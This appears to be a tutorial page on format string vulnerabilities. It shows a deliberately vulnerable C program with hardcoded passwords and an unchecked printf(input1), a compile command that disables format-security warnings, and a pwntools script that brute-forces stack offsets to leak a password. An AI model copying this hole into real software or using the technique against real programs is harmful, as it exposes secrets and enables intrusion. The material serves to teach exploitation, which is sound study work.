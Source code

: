 <figure><img src="broken-reference" alt="" width="477"><figcaption></figcaption></figure>

## Read passwords

```c
#include <stdio.h>
#include <string.h>

char bss_password[20] = "hardcodedPassBSS"; // Password in BSS

int main() {
    char stack_password[20] = "secretStackPass"; // Password in stack
    char input1[20], input2[20];

    printf("Enter first password: ");
    scanf("%19s", input1);
    
    printf("Enter second password: ");
    scanf("%19s", input2);

    // Vulnerable printf
    printf(input1);
    printf("\n");
    
    // Check both passwords
    if (strcmp(input1, stack_password) == 0 && strcmp(input2, bss_password) == 0) {
        printf("Access Granted.\n");
    } else {
        printf("Access Denied.\n");
    }

    return 0;
}
```

Compile it with:

```bash
clang -o fs-read fs-read.c -Wno-format-security
```

### Read from stack

The **`stack_password`** will be stored in the stack because it's a local variable, so just abusing printf to show the content of the stack is enough. This is an exploit to BF the first 100 positions to leak the passwords form the stack:

```python
from pwn import *

for i in range(100):
    print(f"Try: {i}")
    payload = f"%{i}$s\na".encode()
    p = process("./fs-read")
    p.sendline(payload)
    output = p.clean()
    print(output)
    p.close()
```
